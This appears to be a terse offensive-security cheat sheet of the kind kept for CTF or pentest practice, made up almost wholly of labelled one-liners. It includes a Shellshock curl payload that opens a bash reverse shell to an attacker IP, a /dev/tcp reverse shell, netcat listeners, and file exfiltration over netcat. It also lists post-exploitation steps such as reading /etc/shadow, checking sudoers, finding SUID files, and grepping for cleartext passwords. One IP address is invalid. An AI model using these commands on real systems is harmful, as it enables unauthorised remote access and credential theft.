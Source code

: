 __shellshock__ (victim)

curl http://192.168.8.805/cgi-bin/test.cgi -H 'User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/192.168.0.107/33444 0>&1'

__shellshock__ (host)

nc -lvnp 33444

__send file through netcat(listener)__

nc -lvnp port > flag.txt

__send file thru netcat (sender)__

nc -w 3 listener ip port < flag.txt

__python server__

( python3 -m http.server 192.168.0.104:8080 )

__interactive shell__

(python -c "import pty;pty.spawn('/bin/bash')")

__forwarding shell(victim)__

(bash -i >& /dev/tcp/192.168.0.104/9999 0>&1)

__forwarding shell(host)__

(nc -lvnp 9999)

__change from non interactive to interactive__

(*echo $SHELL (variable yg dh diset)*echo $TERM*export SHELL=/bin/bash*export TERM=xterm-256color*stty -a*stty raw -a)

__system/user info__

(uname -a, env, whoami, history, pwd -> searchsploit)

__check sudoers__ 

(sudo -l, cat /etc/sudoers)

__other super users__

( grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1}')

__network info__

( ifconfig -a, netstat -antup, lsof -i)

__enum serv/softw__

( ps aux, ps -ef)

__SUID files__

(find / -perm -u=s -type f 2>/dev/null)

__pw hashes__

(cat /etc/shadow)

__check cleartxt cred__

(find . -type f -maxdepth 4 | xargs grep -i "password")

__reference__

_http://www.securitysift.com/download/linuxprivchecker.py_

_https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh_

_https://gtfobins.github.io/_


